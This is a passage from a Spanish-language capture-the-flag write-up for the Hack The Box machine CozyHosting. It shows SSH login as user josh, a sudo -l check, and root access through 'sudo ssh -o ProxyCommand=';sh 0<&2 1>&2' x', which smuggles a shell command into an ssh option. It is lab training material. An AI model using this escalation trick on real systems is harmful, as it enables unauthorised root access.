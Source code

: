 Ingresamos mediante `ssh` usando la contraseña y el usuario `josh`

```sh
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:

![CozyHosting 12](/assets/images/post/2024/cozy12.png)

## Escalada de privilegios

Probamos si ejecutar algún comando como root:

```sh
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.

Por lo tanto escalamos privilegios usando ssh de la siguiente manera:

```sh
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![CozyHosting 13](/assets/images/post/2024/cozy13.png)

![Ge0FM](https://www.hackthebox.com/badge/image/1827323) |  | 